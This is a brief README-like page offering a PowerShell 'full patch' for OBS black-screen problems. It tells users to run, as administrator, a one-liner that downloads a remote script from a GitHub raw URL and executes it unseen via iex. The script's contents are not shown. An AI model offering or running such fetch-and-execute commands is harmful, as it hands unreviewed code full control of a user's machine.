 # READ THIS BEFORE USING

If your OBS doesn't crash, but shows a black screen, try this script and there is a pretty high chance that this will help.
It's a full patch, so it moves all DLLs and such to where they have to be.

## Usage Instructions
### 1. Open 'Windows Powershell' with administrator privileges
### 2. Paste the following code into the command line:

<code> iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/BlueElixir/aimware-luas/main/OBS%20FIX/obs-fix.ps1')); </code>

### 3. Wait for the operation to finish

If everything went well, OBS will work too.

<script>
  function myFunction() {
    var copyText = document.getElementById("myInput");

    copyText.select();
    copyText.setSelectionRange(0, 99999); /* For mobile devices */

     /* Copy the text inside the text field */
    navigator.clipboard.writeText(copyText.value);

    /* Alert the copied text */
    alert("Copied the text: " + copyText.value);
  }
</script>
